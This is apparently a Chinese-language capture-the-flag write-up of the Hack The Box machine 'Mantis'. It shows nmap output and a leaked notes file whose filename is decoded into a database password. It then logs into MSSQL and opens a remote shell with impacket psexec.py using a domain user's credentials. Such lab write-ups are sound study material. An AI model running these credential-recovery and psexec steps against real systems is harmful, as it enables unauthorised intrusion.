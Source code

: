 ```yaml
---
title: mantis（敏感信息泄露+445端口连接）
categories:
- training
tags:
- training
---
```


## 10.10.10.52

[使用脚本扫描端口](https://whale3070.github.io/scan/2020/01/17/06-x/)


![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/1.PNG)

cat 10.10.10.52.txt

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/2.PNG)

```
53/tcp    open   domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2020-01-17 11:19:45Z)
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
1337/tcp  open   http         Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-01-17T09:04:27
|_Not valid after:  2050-01-17T09:04:27
|_ssl-date: 2020-01-17T11:20:51+00:00; +31s from scanner time.
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
8080/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49157/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
50255/tcp open   ms-sql-s     Microsoft SQL Server 2014 12.00.2000
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-01-17T09:04:27
|_Not valid after:  2050-01-17T09:04:27
|_ssl-date: 2020-01-17T11:20:51+00:00; +31s from scanner time.
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 43m22s, deviation: 1h53m23s, median: 30s
| ms-sql-info:
|   10.10.10.52:1433:
|     Version:
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery:
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2020-01-17T06:20:42-05:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-01-17T11:20:43
|_  start_date: 2020-01-17T09:04:01

```
操作系统：
445端口
`Windows Server 2008 R2 Standard 7601 Service`

## web
[使用脚本扫描web目录](https://whale3070.github.io/scan/2019/07/31/11-x/)

```
http://10.10.10.52:1337/
http://10.10.10.52:593
http://10.10.10.52:8080/Users/Account/LogOn?ReturnUrl=%2F
```   

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/5.PNG)

http://10.10.10.52:1337/secure_notes
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/6.PNG)
http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/7.PNG)
从文件内容可以得知用户名、数据库名

文件名包含一串密文`NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx`

`echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d`

将其base64解码以后，得到`6d2424716c5f53405f504073735730726421`

`echo -n 6d2424716c5f53405f504073735730726421 | wc -c`
查看密文的长度，是36位。如果密文长度是32位，说明可能是MD5加密。

`echo -n 6d2424716c5f53405f504073735730726421 | xxd -ps -r`将其16进制解码就可以得到我们的密码`m$$ql_S@_P@ssW0rd!`

## 十六进制与xxd
xxd是十六进制转储工具

使用方法：`xxd 文件名`

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/8.PNG)

## 连接数据库
dbeaver 是一个通用数据库，使用该客户端，连接目标机器的数据库。

注意之前的扫描结果，mssql版本： Microsoft SQL Server 2014 12.00.2000
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/9.PNG)



```
地址：10.10.10.52
数据库名：orcharddb
用户名： admin
密码：m$$ql_S@_P@ssW0rd!
```

下载驱动，然后点测试连接。
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/10.PNG)


![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/11.PNG)


```
locate psexec.py
python /usr/share/doc/python-impacket/examples/psexec.py htb.local/James@10.10.10.52 cmd.exe
J@m3s_P@ssW0rd!
```
 psexec 是一个类似于telnet的连接软件，通过psexec连接445端口。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-21-12/12.PNG)

```
cd C:\users\Adminitrator
cd C:\users\Administrator\Desktop
type root.txt
```

## 总结
- 学习了psexec的用法
- 一条命令，关闭进程`pgrep openvpn | xargs kill -s 9`
- msf 有psexec模块，可以输入明文密码，也可以输入hash作为密码。
